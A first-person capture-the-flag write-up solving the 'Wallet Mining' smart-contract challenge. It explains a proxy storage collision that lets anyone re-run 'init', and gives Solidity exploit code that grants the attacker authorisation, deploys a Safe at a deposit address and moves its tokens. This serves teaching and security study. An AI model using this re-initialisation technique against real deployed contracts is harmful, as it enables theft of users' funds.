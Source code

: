 # Solving the Wallet Mining – My Journey

## TL;DR

Honestly, this challenge wasn't as challenging as I hoped it would be. The only part that gave me trouble was figuring out the right `initializer` for the `WalletDeployer::drop` function to successfully deploy the `USER_DEPOSIT_ADDRESS`. And trust me, when you figure it out, you'll be like "what?? why is this so simple??" This should be harder for a 13th challenge!

Oh, and the nonce? I just brute-forced it with a for loop and boom - it was **13**. Of course it was 13.

## The Main Trick - Storage Collision

The whole challenge boils down to one thing: there's a **storage collision** in the _authorization upgradeable_ mechanism. Once you figure this out, everything else clicks into place.

Here's what's happening:

- `TransparentProxy` has this `upgrader` variable sitting at s`lot 0`
- The implementation contract `AuthorizerUpgradeable` also has `needsInit` at `slot 0`

When this proxy gets deployed:

```javascript
authorizer = address(
  new TransparentProxy( // proxy
    address(new AuthorizerUpgradeable()), // implementation
    abi.encodeCall(AuthorizerUpgradeable.init, (wards, aims)) // init data
  )
);
```

The `init` function gets called via **delegate call**, which means it runs in the proxy's context. So when it checks `needsInit`, it's actually reading the `upgrader` value from the proxy!

```javascript
function init(address[] memory _wards, address[] memory _aims) external {
        require(needsInit != 0, "cannot init");
        for (uint256 i = 0; i < _wards.length; i++) {
            _rely(_wards[i], _aims[i]);
        }
        needsInit = 0;
    }
```

Initially, `upgrader` is set to the _AuthorizerFactory address_ (non-zero), so the check passes. But then `needsInit = 0` actually sets `upgrader = address(0)` in the proxy. This makes it super easy for anyone to call `init` again since the check is now reading from the proxy's storage.

## My solution

1. **Exploit the auth bug**
   - I took advantage of the `storage collision` and set myself as the `ward` and `USER_DEPOSIT_ADDRESS` as the `aim`.

```javascript
    address[] memory _wards = new address[](1);
    _wards[0] = address(this);
    address[] memory _aims = new address[](1);
    _aims[0] = i_userDepositAddress;
    i_authorizer.init(_wards, _aims);
```

2. **Figure out the drop parameters**

   - This was the trial and error part. After spending time at it for long, I realized the `initializer` is just a simple `Safe.setup` call to set the `owner` and `threshold`. That's it!

3. **Rescue Function**
   - Here's my rescuer contract `TokenRescuer` doing all the heavy lifting.
   - This deploys the `USER_DEPOSIT_ADDRESS` with the right code and moves the rewards to the `ward` address.

```javascript
function rescue() external {
        // Set up my auth
        address[] memory _wards = new address[](1);
        _wards[0] = address(this);
        address[] memory _aims = new address[](1);
        _aims[0] = i_userDepositAddress;
        i_authorizer.init(_wards, _aims);
        // Check if it worked
        bool result = i_authorizer.can(address(this), _aims[0]);
        console.log("Result: ", result);
        // Set up the Safe parameters
        address[] memory _owners = new address[](1);
        _owners[0] = i_userToSave;
        uint256 _threshold = 1;
        address fallbackHandler = address(0);
        address paymentToken = address(0);
        uint256 payment = 0;
        address payable paymentReceiver = payable(address(0));

        bytes memory initializer = abi.encodeCall(
            Safe.setup,
            (_owners, _threshold, address(0), bytes(""), fallbackHandler, paymentToken, payment, paymentReceiver)
        );
        // The magical nonce 13!
        i_walletDeployer.drop(address(i_userDepositAddress), initializer, 13);
        assert(i_token.balanceOf(address(this)) == i_walletDeployer.pay());
        // sends the reward to ward
        i_token.transfer(i_ward, i_token.balanceOf(address(this)));
    }
```

4. **Move the user's funds**
   - The final step was executing a transaction to move the `DEPOSIT_TOKEN_AMOUNT` from `USER_DEPOSIT_ADDRESS` back to the `user`. I did this part directly in the test since I didn't want to mess with moving the `userPrivateKey` around:

```javascript
 bytes32 messageHash = Safe(payable(USER_DEPOSIT_ADDRESS)).getTransactionHash({
            to: address(token),
            value: 0,
            data: abi.encodeCall(IERC20.transfer, (user, DEPOSIT_TOKEN_AMOUNT)),
            operation: Enum.Operation.Call,
            safeTxGas: 0,
            baseGas: 0,
            gasPrice: 0,
            gasToken: address(0),
            refundReceiver: payable(address(0)),
            _nonce: Safe(payable(USER_DEPOSIT_ADDRESS)).nonce()
        });
        (uint8 v, bytes32 r, bytes32 s) = vm.sign(userPrivateKey, messageHash);
        bytes memory signature = abi.encodePacked(r, s, v);
        Safe(payable(USER_DEPOSIT_ADDRESS)).execTransaction(
            address(token),
            0,
            abi.encodeCall(IERC20.transfer, (user, DEPOSIT_TOKEN_AMOUNT)),
            Enum.Operation.Call,
            0,
            0,
            0,
            address(0),
            payable(address(0)),
            signature
    );
```

5. And that's it! Challenge solved.

## Final Thoughts

Once you spot the _storage collision_, this challenge becomes pretty straightforward. The tricky part was just figuring out that the **initializer** which is a simple `Safe::setup` call. Sometimes the simplest solution is the right one!

